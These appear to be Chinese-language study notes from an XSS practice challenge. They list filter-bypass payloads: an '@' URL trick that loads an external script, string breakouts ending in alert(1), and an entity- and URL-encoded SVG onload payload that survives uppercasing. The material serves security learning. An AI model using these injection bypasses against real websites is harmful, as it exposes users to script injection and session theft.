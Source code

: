 ```
@ 符号绕过 url 限制
例如:https://www.segmentfault.com@xss.haozi.me/j.js
其实访问的是 @ 后面的内容
```

```
") 逃逸函数后接分号
例:");alert(1)//
```

```
绕过转义限制
例:
\")
alert(1) //
```

**输入会被大写化**

先把纯文本字符转换为 HTML 实体字符, 然后对其进行 URL 编码, 最后用 SVG 标记的 onload 参数输出
```html
<svg onload=%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x27%3B%26%23x48%3B%26%23x69%3B%26%23x20%3B%26%23x4D%3B%26%23x6F%3B%26%23x6D%3B%26%23x27%3B%26%23x29%3B>
```
